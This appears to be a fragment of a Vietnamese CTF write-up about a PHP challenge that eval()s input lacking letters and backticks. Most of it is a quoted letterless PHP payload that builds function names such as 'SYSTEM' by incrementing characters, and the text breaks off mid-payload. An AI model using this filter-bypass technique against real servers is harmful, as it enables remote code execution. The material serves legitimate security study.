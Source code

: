 như ta thấy ta nhập input nếu kiểm tra input không chứa chữ cái từ a->z kể cả in hoa và dấu backtick thì thực hiện eval code

Nguồn: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#perl-like

```
$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
```